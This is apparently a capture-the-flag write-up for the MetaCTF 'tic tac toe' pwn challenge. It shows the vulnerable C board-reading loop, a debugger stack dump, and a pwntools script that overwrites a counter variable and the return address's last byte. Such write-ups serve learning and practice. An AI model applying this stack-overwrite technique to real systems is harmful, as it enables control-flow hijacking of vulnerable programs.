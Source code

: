 # Untitled

[tic tac toe [metaCTF]](https://github.com/v13td0x/Q4_21/raw/main/meta/pwn/Tic%20tac%20toe/tic_tac_toe_Release.tar.gz)

> Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
> 

```c
int read_board(){
	char board[3][3]; // $sbp-0xa
	char counter = 0; // $rbp-0x1

	//read the board in
	while (counter < 9){
		while(1){
			read(0, (char*)board+counter++, 1);

			if (*((char *)board+counter-1) == '\n')
			{
				counter--;
				continue;
			}
			if (*((char*)board + counter-1) == 'o' || *((char*)board + counter-1) == 'O' ||*((char*)board + counter-1) == '0' || *((char*)board + counter-1) == 'x' || *((char*)board + counter-1) == 'X'){
				break;
			}
			puts("Bad Character, try again");
		}
	}
// if last byte was an x, X, o, O, or 0 program will check counter<9,
// otherwise continue read from input and write in stack at board[counter]
```

```bash
02:0010│ rsp     0x7fff2059f840 ◂— 0x767655b24517f0a0
03:0018│         0x7fff2059f848 ◂— 0x1376767676767676
04:0020│ rbp     0x7fff2059f850 —▸ 0x7fff2059f860 ◂— 0x0
05:0028│ rax rsi 0x7fff2059f858 —▸ 0x55b24517f645 (main+60) # ret
pwndbg> x $rbp-0x1
0x7fff2059f84f: 0x007fff2059f86013 # counter = 13
pwndbg> x/x $rbp+8
0x7fff3d59caf8: 0x45 #last byte of ret addr
```

your strategy is over last byte of ret addr 0x45→ `0x4f`, we will overwrite counter var = 0x12++. Because `board[counter=0x13]` = last byte of ret addr (0xa bytes of board + 8 byte rbp + 1 last byte ret). 

> Remember: we need 9 byte `not` in {x, X, 0, o, O} to not check counter and '\n' to increase counter var. Due to overwrite `counter` var
> 

```python
# xpl.py
from pwn import *

p = remote("host.cg21.metaproblems.com", 3120)
p.send(b'v'*9 + b'\x12\x4f')
p.stream()
```